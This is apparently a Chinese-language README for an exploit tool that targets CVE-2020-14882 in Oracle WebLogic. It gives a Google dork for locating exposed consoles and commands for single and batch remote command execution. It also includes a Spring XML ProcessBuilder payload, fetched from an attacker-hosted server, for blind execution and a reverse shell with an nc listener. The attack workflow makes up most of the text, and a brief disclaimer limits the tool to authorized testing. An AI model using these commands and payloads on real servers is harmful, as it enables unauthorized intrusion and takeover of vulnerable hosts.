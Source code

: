 Google Dork: inurl:"/console/login/LoginForm.jsp"


# CVE-2020-14882_ALL

CVE-2020-14882_ALL综合利用工具，支持命令回显检测、批量命令回显、外置xml无回显命令执行等功能。

需要模块：requests、http.client

**（工具仅用于授权的安全测试，请勿用于非法使用，违规行为与作者无关。）**

命令回显模块已知成功版本：12.2.1.3.0、12.2.1.4.0、14.1.1.0.0



### 选项
![在这里插入图片描述](https://img-blog.csdnimg.cn/fed3212e564c4421ba962e5c257d4414.png#pic_center)
### 功能一：命令回显
python3 CVE-2020-14882_ALL.py -u http://x.x.x.x:7001 -c "whoami"

![在这里插入图片描述](https://img-blog.csdnimg.cn/a481cad2b15e4ef8a53ef2ef57b57276.png#pic_center)
### 功能二：批量命令回显

python3 CVE-2020-14882_ALL.py -f target.txt -c "whoami"

target.txt 格式：http://x.x.x.x:xx，一行一个(注：这里只设置了一个)

![在这里插入图片描述](https://img-blog.csdnimg.cn/d24f21b504644b4ca418af0acf13b6ea.png#pic_center)




### 功能三：外置xml文件无回显命令执行

1、Linux反弹shell为例，编辑好poc.xml文件，开启python监听。  

```
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
	<value>cmd</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

开启python监听，nc开启监听

2、使用-x选项指定xml文件路径，发送payload。

python3 CVE-2020-14882_ALL.py -u http://x.x.x.x:7001 -x http://x.x.x.x:8000/poc.xml




